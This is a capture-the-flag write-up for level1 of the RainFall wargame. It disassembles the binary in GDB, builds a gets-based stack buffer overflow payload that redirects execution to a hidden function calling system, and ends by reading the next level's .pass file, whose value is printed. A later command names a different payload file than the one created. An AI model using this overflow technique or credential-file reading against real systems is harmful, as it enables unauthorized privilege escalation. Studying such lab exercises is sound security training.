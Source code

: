 # level1

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

First, execute `level1` and play with it a little:

```console
level1@RainFall:~$ ./level1
ashaiuhsoiahsioahisoaoishoiasioahsoiaoisnaoinsoiansoiansoinaiosnaoinsoihfoahsoinasoidhiuawhdowdgligalugaidgalkgdgdiasgdias
Segmentation fault (core dumped)
```

Putting a lot of crap makes `level1` segfaulting that is to say it is not protected somewhere. Let's check what is inside this binary :

```gdb
level1@RainFall:~$ gdb level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

So, we notice several functions such as: `main`, `run`, `gets`, `fwrite` and so on. Let's have a look at `main`:

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:    push   ebp                      ; stack frame initialization
   0x08048481 <+1>:    mov    ebp,esp
   0x08048483 <+3>:    and    esp,0xfffffff0           ; stack frame alignment: rounding down to the nearest multiple of 16
   0x08048486 <+6>:    sub    esp,0x50                 ; create the frame of size 0x50 (decimal 80)
   0x08048489 <+9>:    lea    eax,[esp+0x10]           ; the actual buffer starts at esp+0x10 (decimal 16)
   0x0804848d <+13>:   mov    DWORD PTR [esp],eax      ; the pointer to the beginning of the pointer will be the parameter of <gets>
   0x08048490 <+16>:   call   0x8048340 <gets@plt>     ; calling <gets>
   0x08048495 <+21>:   leave
   0x08048496 <+22>:   ret
End of assembler dump.
```

Well, now we know more about `main`, if you dig into `gets` you will notice that it calls `_IO_getline` - thus a prompt
waiting for you to enter something followed by `return`. But, it is not significant for us here. We notice that function
`run` is never called! To convince yourself, just put a breakpoint onto this function and run. The program run as usual.

So, let's have a look at it:

```gdb
gdb-peda$ disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; the stack frame is 0x18 (decimal 24) bytes big
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>       ; that is interesting! It calls <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```

Well, well, well. We have a call to `system` which executes code without other any checking. That's our entry point. Now
we are going to use one famous hacker technic: the *buffer overflow*.

## Exploit

In order to do so we are going to use the buffer initialized in `main`. The objectives are clear: thanks to `gets` we can
buffer overflow the `main` function and put afterwards a call to `run` (which starts at `0x08048444`).

To do so, we need to calculate the offset in order to override the `EIP` address. We are going to make it point to `run`
function. Thanks to this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) we know that the offset is of
76.

Let's create our string with 76 `A` and the address (the address is inverse because of the endianness):

```console
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
```

And give it to `level1` executable:

```console
level1@RainFall:~$ cat /tmp/level1 - | ./level1
```

> `cat [file] -` means that `cat` open the file then stdin (`-`). Why that? A shell we execute wants some input. Since
> we want to open a new shell this new shell request for a `stdin`. If not, it closes. So nothing happen. So we provide
> it a standard input by adding `-` to `cat` command. An alternative could have been: `(python -c 'print "A" * 76 +
> "\x44\x84\x04\x08"'; cat) | ./level1`.

Finally:

```console
level1@RainFall:~$ cat /tmp/test - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
